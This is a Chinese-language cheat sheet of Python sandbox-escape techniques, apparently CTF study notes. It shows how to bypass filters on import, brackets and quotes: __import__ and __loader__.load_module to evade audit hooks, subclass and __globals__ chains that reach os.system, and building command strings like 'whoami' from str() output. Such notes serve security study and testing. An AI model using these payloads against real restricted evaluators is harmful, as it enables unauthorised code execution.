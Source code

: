 

### 过滤 import
python 中除了可以使用 import 来导入，还可以使用 `__import__` 和 `importlib.import_module` 来导入模块

#### `__import__`
```py
__import__('os')
```
#### importlib.import_module
不过 importlib 也需要导入,所以有些鸡肋.
```py
import importlib
importlib.import_module('os').system('ls')
```
注意：importlib 需要进行导入之后才能够使用

#### `__loader__.load_module`
如果使用 audithook 的方式进行过滤,上面的两种方法就无法使用了,但是 `__loader__.load_module` 底层实现与 import 不同, 因此某些情况下可以绕过.
```py
>>> __loader__.load_module('os')
<module 'os' (built-in)>
```


### 过滤了 []
如果中括号被过滤了，则可以使用如下的两种方式来绕过：

1. 调用`__getitem__()`函数直接替换；
2. 调用 pop()函数（用于移除列表中的一个元素，默认最后一个元素，并且返回该元素的值）替换；

```py
''.__class__.__mro__[-1].__subclasses__()[200].__init__.__globals__['__builtins__']['__import__']('os').system('ls')

# __getitem__()替换中括号[]
''.__class__.__mro__.__getitem__(-1).__subclasses__().__getitem__(200).__init__.__globals__.__getitem__('__builtins__').__getitem__('__import__')('os').system('ls')

# pop()替换中括号[]，结合__getitem__()利用
''.__class__.__mro__.__getitem__(-1).__subclasses__().pop(200).__init__.__globals__.pop('__builtins__').pop('__import__')('os').system('ls')

getattr(''.__class__.__mro__.__getitem__(-1).__subclasses__().__getitem__(200).__init__.__globals__,'__builtins__').__getitem__('__import__')('os').system('ls')
```

### 过滤了 ''

#### str 函数
如果过滤了引号，我们 payload 中构造的字符串会受到影响。其中一种方法是使用 str() 函数获取字符串，然后索引到预期的字符。将所有的字符连接起来就可以得到最终的字符串。

```py
>>> ().__class__.__new__
<built-in method __new__ of type object at 0x9597e0>
>>> str(().__class__.__new__)
'<built-in method __new__ of type object at 0x9597e0>'
>>> str(().__class__.__new__)[21]
'w'
>>> str(().__class__.__new__)[21]+str(().__class__.__new__)[13]+str(().__class__.__new__)[14]+str(().__class__.__new__)[40]+str(().__class__.__new__)[10]+str(().__class__.__new__)[3]
'whoami'
```
